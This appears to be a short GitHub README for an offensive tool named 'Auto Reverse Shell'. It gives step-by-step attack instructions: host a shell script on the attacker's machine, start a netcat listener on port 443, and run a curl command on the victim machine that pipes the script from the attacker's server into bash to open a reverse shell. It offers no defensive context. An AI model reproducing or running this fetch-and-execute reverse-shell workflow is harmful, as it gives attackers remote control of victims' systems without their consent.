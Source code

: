 # Auto Reverse Shell 🐙

## Use 💻
1. Download rshells.sh on the attacker's machine
2. Serve it with a web server, for example `python3 -m http.server 80`
3. Run netcat in another terminal to listen on some port, for example port 443: `nc -nlvp 443`
4. On the victim machine run: `curl http://<IpWebServer>:<PortWebServer>/rshell.sh | bash -s <AttackerIP> <NetcatPort>`
5. Look at the netcat terminal and you will see the shell of the victim.